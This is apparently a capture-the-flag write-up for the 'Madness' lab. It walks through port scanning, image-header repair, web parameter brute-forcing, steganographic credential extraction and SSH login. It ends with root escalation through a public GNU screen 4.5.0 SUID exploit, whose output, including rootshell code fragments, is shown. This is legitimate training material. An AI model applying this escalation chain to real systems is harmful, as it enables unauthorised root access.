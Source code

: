 # Madness

Will you be consumed by Madness?

## Flag Submission

![alt text](image.png)

Please note this challenge does not require SSH brute forcing.

Use your skills to access the user and root account!

### Get access
Let's enumerate ports
```
nmap -Pn -T5 10.10.233.206
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-20 06:00 GMT
Nmap scan report for 10.10.233.206
Host is up (0.00051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:3D:0C:87:22:A9 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds
```

Find broken image

Restore jpg format by hexedit

PNG bytes:
`89 50 4E 47 0D 0A 1A 0A`

JFIF bytes:
`FF D8 FF E0 00 10 4A 46 49 46 00 01`

Let's break it down:

| Hex Code        | Description                             |
|---------------|---------------------------------|
| **FF D8**     | Start of Image (SOI) in JPEG format.  |
| **FF E0**     | APP0 marker (usually JFIF).         |
| **00 10**     | APP0 header length (16 bytes).      |
| **4A 46 49 46** | The string "JFIF" in ASCII.       |
| **00**        | Null byte.                         |
| **01**        | JFIF version 1.01.                 |


Go to http://10.10.233.206/th1s_1s_h1dd3n/

![alt text](image-1.png)

http://10.10.233.206/th1s_1s_h1dd3n/?secret=0

Let use Burp -> Intruder

![alt text](image-2.png)

http://10.10.233.206/th1s_1s_h1dd3n/?secret=73

![alt text](image-3.png)

Some secret - `y2RPJ4QaPF!B` but for what?

It was very hard to remember, that Stegonagraphy exist =)
```
steghide extract -sf thm.jpg
Enter passphrase: 
wrote extracted data to "hidden.txt".
root@ip-10-10-97-238:~# ls
burp.json   Downloads     Pictures  Scripts            thm.jpg
CTFBuilder  hidden.txt    Postman   snap               Tools
Desktop     Instructions  Rooms     thinclient_drives
root@ip-10-10-97-238:~# cat hidden.txt
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```

Use ROT13 bruteforce for wbxre

Nice! We have username!

Try SSH with previous password - Unsuccess

```
ssh joker@10.10.65.48
The authenticity of host '10.10.65.48 (10.10.65.48)' can't be established.
ECDSA key fingerprint is SHA256:Wi0RpQNwFTfSuABX4f8gKrf3UzJBmrNOdVjVnBBqL5E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.65.48' (ECDSA) to the list of known hosts.
joker@10.10.65.48's password: 
Permission denied, please try again.
```

Another breakpoint...what should we do

Stegonagraphy time! Again

Check this image - 
![alt text](image-4.png)

```
steghide extract -sf 5iW7kC8.jpeg
Enter passphrase: 
wrote extracted data to "password.txt".
cat password.txt
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```

Finally we have login and password, hope for SSH this time

### user flag

```
ssh joker@10.10.65.48
joker@10.10.65.48's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Jan  5 18:51:33 2020 from 192.168.244.128
joker@ubuntu:~$ ls
user.txt
joker@ubuntu:~$ cat user.txt
```

### root flag
Check, do we have some sudo priveleges 
```
joker@ubuntu:~$ sudo -l
[sudo] password for joker: 
Sorry, user joker may not run sudo on ubuntu.
```
Okay, let's try to search somethimg interesting
```
find / -type f -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Nov 29  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 75304 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54256 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 39904 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 40432 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 71824 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Oct 11  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40128 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 1588648 Jan  4  2020 /bin/screen-4.5.0
-rwsr-xr-x 1 root root 1588648 Jan  4  2020 /bin/screen-4.5.0.old
-rwsr-xr-x 1 root root 40152 Oct 10  2019 /bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 27608 Oct 10  2019 /bin/umount
```

Try mount - nope

We see `screen-4.5.0`
Let's check it out - https://www.exploit-db.com/exploits/41154

Don't forget to make this script executable

```
joker@ubuntu:~$ chmod +x exploit
joker@ubuntu:~$ ./exploit
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function \u2018dropshell\u2019:
/tmp/libhax.c:7:5: warning: implicit declaration of function \u2018chmod\u2019 [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function \u2018main\u2019:
/tmp/rootshell.c:3:5: warning: implicit declaration of function \u2018setuid\u2019 [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function \u2018setgid\u2019 [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function \u2018seteuid\u2019 [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function \u2018setegid\u2019 [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function \u2018execvp\u2019 [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

# whoami
root
# cat /root/root.txt
```
